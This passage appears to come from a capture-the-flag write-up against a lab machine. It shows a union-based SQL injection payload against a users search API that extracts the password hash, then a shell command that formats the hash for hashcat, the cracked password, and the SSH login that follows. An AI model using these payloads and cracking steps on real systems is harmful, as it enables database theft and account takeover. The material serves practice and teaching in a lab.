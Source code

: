 We can see that the request include the username and other some important data. 
The output can be listed in more organized manner as below:
```
username: susanne
avatar: 1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce

username: sO3XIbeW14
avatar: 1.gravatar.com/avatar/1
```
Two user's data are obtained.

### Get Password:
Command:
```
python3 redirect.py "http://127.0.0.1:3000/api/v1/users/search?q=')/**/union/**/all/**/select/**/1,1,(select/**/passwd/**/from/**/user),1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1,1--"
```

We get password. The output can be listed in more organized manner as below:
```
username: susanne
avatar: 1.gravatar.com/avatar/c11d48f16f254e918744183ef7b89fce,
username:  66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37
avatar: 1.gravatar.com/avatar/1
```

### Create hash password
Command:
```
echo 'sha256:100000':$(echo 'sO3XIbeW14' | base64 | cut -c1-14)':'$(echo '66c074645545781f1064fb7fd1177453db8f0ca2ce58a9d81c04be2e6d3ba2a0d6c032f0fd4ef83f48d74349ec196f4efe37' | xxd -r -p | base64) > hash.txt
```
The output will be stored in `hash.txt` file. We can see the result using `cat hash.txt` command.


## Cracking Password Hashcat
Command:
```
hashcat -m 10900 hash.txt /usr/share/wordlists/rockyou.txt 
```

Once hashcat successfully cracked the password, we get password `february15`.

## Login Through SSH
Command:
```
ssh susanne@10.10.11.176  
```
When asked for password, enter `february15`.

We get shell access as user `susanne`. Then we can get our first flag.
